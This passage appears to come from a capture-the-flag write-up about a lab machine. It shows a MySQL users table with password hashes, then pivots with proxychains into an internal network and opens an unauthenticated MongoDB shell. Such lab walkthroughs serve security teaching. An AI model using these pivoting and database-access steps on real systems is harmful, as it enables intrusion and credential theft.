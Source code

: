 
It has only the user from `initialize.php` and the one I created:



    mysql> select * from users;
    +----+-----------+----------+--------+------------------------+----------+----------------------------------+---------+-----------------------------------+------------+------------+---------------------+---------------------+
    | id | firstname | lastname | gender | contact                | username | password                         | address | avatar                            | last_login | login_type | date_added          | date_updated        |
    +----+-----------+----------+--------+------------------------+----------+----------------------------------+---------+-----------------------------------+------------+------------+---------------------+---------------------+
    |  1 | Jeremy    | Hammond  | Male   | jhammond@carpediem.htb | admin    | b723e511b084ab84b44235d82da572f3 |         | uploads/1635793020_HONDA_XADV.png | NULL       |          1 | 2021-01-20 14:02:37 | 2022-04-01 23:34:50 |
    | 25 | 0xdf      | 0xdf     | Male   | 0xdf@carpediem.htb     | 0xdf     | 465e929fc1e0853025faad58fc8cb47d | 0xdf    | NULL                              | NULL       |          1 | 2022-11-28 15:20:42 | 2022-11-28 17:27:53 |
    +----+-----------+----------+--------+------------------------+----------+----------------------------------+---------+-----------------------------------+------------+------------+---------------------+---------------------+
    2 rows in set (0.08 sec)



#### 172.17.0.4 - MongoDB

This host is open on 27017, which is the default port for MongoDB. I
could also get that by curling the port:



    oxdf@hacky$ proxychains curl 172.17.0.4:27017
    [proxychains] config file found: /etc/proxychains4.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.14
    [proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.17.0.4:27017  ...  OK
    It looks like you are trying to access MongoDB over HTTP on the native driver port.



I'll connect using `mongo`, and it allows access without auth:



    oxdf@hacky$ proxychains mongo 172.17.0.4
    [proxychains] config file found: /etc/proxychains4.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.14
    MongoDB shell version v3.6.8
    connecting to: mongodb://172.17.0.4:27017/test
    [proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.17.0.4:27017  ...  OK
    Implicit session: session { "id" : UUID("f87fa546-0593-42c5-b3a5-e6d1dff06a7f") }
    MongoDB server version: 5.0.6
    WARNING: shell and server versions do not match
    Server has startup warnings: 
    {"t":{"$date":"2022-11-28T13:57:33.732+00:00"},"s":"I",  "c":"STORAGE",  "id":22297,   "ctx":"initandlisten","msg":"Using the XFS filesystem is strongly recommended with the WiredTiger storage engine. See http://dochub.mongodb.org/core/prodnotes-filesystem","tags":["startupWarnings"]}
    {"t":{"$date":"2022-11-28T13:57:36.570+00:00"},"s":"W",  "c":"CONTROL",  "id":22120,   "ctx":"initandlisten","msg":"Access control is not enabled for the database. Read and write access to data and configuration is unrestricted","tags":["startupWarnings"]}
    > 
